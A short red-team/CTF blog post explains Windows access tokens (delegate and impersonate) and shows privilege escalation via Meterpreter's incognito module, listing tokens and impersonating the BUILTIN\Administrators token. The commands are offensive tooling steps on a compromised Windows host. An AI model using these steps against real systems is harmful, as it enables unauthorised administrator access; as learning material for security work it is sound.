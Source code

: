 ```yaml
---
layout: post
title:  "Token Imporsanate With Meterpreter Shell"
date:   2020-04-09 02:24:32 +0530
categories: redteam ctf
---
```


Token imporsanation is a windows privilage escalation technique. This blog discusses about how windows tokens work and how tokens can be used to escalate 
privilages into administrator account.

## What is a Token

When a user login to the windows system through physically or through a remote desktop, the os create a token and keep it in memory until the user disconnect or log off or 
computer reboot. Tokens are like cookies for windows. It holds the information about use authorization.

There are two types of Tokens exists,
<ol>
<li>Delegate - Created in an interactive login such as conventionally logging into the console, logging in remotely using Terminal Services
or using other remote access solutions such as Citrix.</li> 
<li>Imporsonate - Created in non-interactive login such as ftp server login, apache server login.</li>
</ol>

If the SeImpoersonate privilage is enable we can imporsanate any user through his token,

## Attack Using Meterpreter Shell

First we need to load incognito module,
```
load incognito
```
List All the tokens 
```
list_tokens -g
```
![List the tokens](https://raw.githubusercontent.com/janithmalinga/janithmalinga.github.io/master/_images/_imporsanate/list_token.png)


#### Then we can imporsanate the administrator using administrator token

```
impersonate_token "BUILTIN\Administrators"
```
![Imporsanate the administrator token](https://github.com/janithmalinga/janithmalinga.github.io/blob/master/_images/_imporsanate/imposanate_admin.png?raw=true)
